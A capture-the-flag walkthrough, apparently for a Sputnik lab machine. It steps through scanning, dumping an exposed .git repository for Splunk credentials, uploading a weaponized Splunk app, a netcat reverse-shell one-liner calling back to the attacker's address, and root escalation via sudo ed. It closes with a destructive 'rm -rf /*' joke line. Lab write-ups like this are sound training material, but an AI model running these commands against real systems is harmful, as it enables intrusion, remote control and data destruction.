





## init
```bash
arp-scan -I wlo1 --localnet
ping -c 1 192.168.1.11
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 192.168.1.11 -oG allports
nmap -sCV -p8089,55555,61337 192.168.1.11

whatweb http://192.168.1.11:8089
whatweb http://192.168.1.11:55555
whatweb http://192.168.1.11:61337

git dumper github

git clone https://github.com/arthaud/git-dumper
cd git-dumper
pip3 install -r requirements.txt
python3 git-dumper.py http://192.168.1.11:55555/.git/ project

# if other commmands are useless
wget -r -np -R "index.html*" http://192.168.1.11:55555/.git/
mv 192.168.1.11 sputnik

cd sputnik

git status
git log
git show

git -C sputnik log

grep -r "password" sputnik
grep -r "key" sputnik

# Using git tools
git clone https://github.com/internetwache/GitTools.git
cd GitTools

# FInder
cd Finder
chmod +x gitfinder
./gitfinder -u http://192.168.1.11:55555/

# donwload repo
cd ../Dumper
chmod +x gitdumper.sh
./gitdumper.sh http://192.168.1.11:55555/.git/ git_repo

# search in git repo
git ls-tree 07fda135aae22fa7869b3de9e450ff7cacfbc717
# ans
100644 blob bdb0cabc87cf50106df6e15097dff816c8c3eb34	.gitattributes
100644 blob cd2946ad76b4402e5b3cab9243a9281aad228670	.gitignore
100644 blob 8f260dadbe40cdc656eb43c0c24401bdd4255bd0	README.md
100644 blob b7c6a79fd534ed19ab1708ac7a754ca1db28b951	index.html
100644 blob f4385198ce1cab56e0b2a1c55e8863040045b085	secret
100644 blob df45033222b87c64965dce38263e6d5948fb5ec1	sheet.png
100644 blob ad295422122860df7d9a4ef0c74de1e6deb67050	sprite.js

git show f4385198ce1cab56e0b2a1c55e8863040045b085

# In carpet logs theres the main repo
git clone https://github.com/ameerpornillos/flappy.git
git log --oneline
git ls-tree 07fda13
# ans
100644 blob bdb0cabc87cf50106df6e15097dff816c8c3eb34	.gitattributes
100644 blob cd2946ad76b4402e5b3cab9243a9281aad228670	.gitignore
100644 blob 8f260dadbe40cdc656eb43c0c24401bdd4255bd0	README.md
100644 blob b7c6a79fd534ed19ab1708ac7a754ca1db28b951	index.html
100644 blob f4385198ce1cab56e0b2a1c55e8863040045b085	secret
100644 blob df45033222b87c64965dce38263e6d5948fb5ec1	sheet.png
100644 blob ad295422122860df7d9a4ef0c74de1e6deb67050	sprite.js

git show f4385198ce1cab56e0b2a1c55e8863040045b085
#ans
sputnik:ameer_says_thank_you_and_good_job #user:pass for Splunk

http://192.168.1.11:61337


```


- Click on install app from file
- Search splunk exploit github (weaponinzng)
- Download tar.gz to upload in splunk



- Restart machine
- THe new uploaded app must appear



- Give permissions to all apps


```bash
nc -nlvp 443

# in slunk search
| revshell std 192.168.1.12 443

```



```bash
# send bash to local machine
reverse shell monkey pentester
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f # ex
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.12 443 >/tmp/f # in splunk reverse

nc -nlvp 443 # in ocal machine

script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
export TERM=xterm

sudo -l # pass: ameer_says_thank_you_and_good_job
# ans
Matching Defaults entries for splunk on sputnik:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User splunk may run the following commands on sputnik:
    (root) /bin/ed # splunk ca run ed without pass
splunk@sputnik:/$ 

https://gtfobins.github.io/

# Search ed
sudo ed
!/bin/sh #!/bin/bash

whoami
cd /root/
cat flag.txt

 _________________________________________
/ Congratulations!                        \
|                                         |
| You did it!                             |
|                                         |
| Thank you for trying out this challenge |
| and hope that you learn a thing or two. |
|                                         |
| Check the flag below.                   |
|                                         |
| flag_is{w1th_gr34t_p0w3r_c0m35_w1th_gr3 |
| 4t_r3sp0ns1b1l1ty}                      |
|                                         |
| Hope you enjoy solving this challenge.  |
| :D                                      |
|                                         |
\ - ameer (from hackstreetboys)           /
 -----------------------------------------
      \                    / \  //\
       \    |\___/|      /   \//  \\
            /0  0  \__  /    //  | \ \    
           /     /  \/_/    //   |  \  \  
           @_^_@'/   \/_   //    |   \   \ 
           //_^_/     \/_ //     |    \    \
        ( //) |        \///      |     \     \
      ( / /) _|_ /   )  //       |      \     _\
    ( // /) '/,_ _ _/  ( ; -.    |    _ _\.-~        .-~~~^-.
  (( / / )) ,-{        _      `-.|.-~-.           .~         `.
 (( // / ))  '/\      /                 ~-. _ .-~      .-~^-.  \
 (( /// ))      `.   {            }                   /      \  \
  (( / ))     .----~-.\        \-'                 .~         \  `. \^-.
             ///.----..>        \             _ -~             `.  ^-`  ^-_
               ///-._ _ _ _ _ _ _}^ - - - - ~                     ~-- ,.-~
                                                                  /.-~


rm -rf /* 2>/dev/null # XD


```


